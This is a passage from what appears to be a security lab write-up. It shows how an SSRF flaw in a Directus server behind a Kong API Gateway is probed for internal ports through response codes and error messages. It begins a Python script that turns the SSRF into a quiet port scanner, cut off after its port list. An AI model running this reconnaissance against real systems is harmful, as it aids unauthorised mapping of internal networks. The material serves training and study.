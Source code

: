 We received an error that the connection was refused.
This new error message is interesting.
We know port 8000 is open externally on the API Gateway server. However, if Directus is running on a different server behind the API gateway, "localhost" would refer to the server running Directus, not the server running Kong API Gateway.
A quick Google search reveals that the default port for Directus is 8055.

Now, we can make the same request, but to port 8055:

![](../../03.%20Images/t9-ss14.png)

The server returned the "FORBIDDEN" error code, so we did request a valid resource.
We can easily verify that TCP port 8055 is closed externally on the Kong API Gateway server with something like an Nmap scan.
We are likely dealing with two or more servers in this scenario.

## Port Scanning

Even though we can't access the results of the SSRF vulnerability, we can still use the different HTTP response codes and error messages to determine if we've requested a valid resource.\
We can use this information to write a script that will exploit the SSRF vulnerability and act as a port scanner.

We will take a few common ports, instead of massive ranges, to keep the exploit less noisy.
The script will be as follows:

```python
#!/usr/bin/env python3

##import modules##
import argparse
import requests

##set the arguments##
parser = argparse.ArgumentParser()
parser.add_argument('-t','--target', help='host/ip to target', required=True)
parser.add_argument('--timeout', help='timeout', required=False, default=3)
parser.add_argument('-s','--ssrf', help='ssrf target', required=True)
parser.add_argument('-v','--verbose', help='enable verbose mode', action="store_true", default=False)

args = parser.parse_args()

##define the ports we want to scan##
ports = ['22','80','443', '1433', '1521', '3306', '3389', '5000', '5432', '5900', '6379','8000','8001','8055','8080','8443','9000']

##set the latency between requests##
timeout = float(args.timeout)
```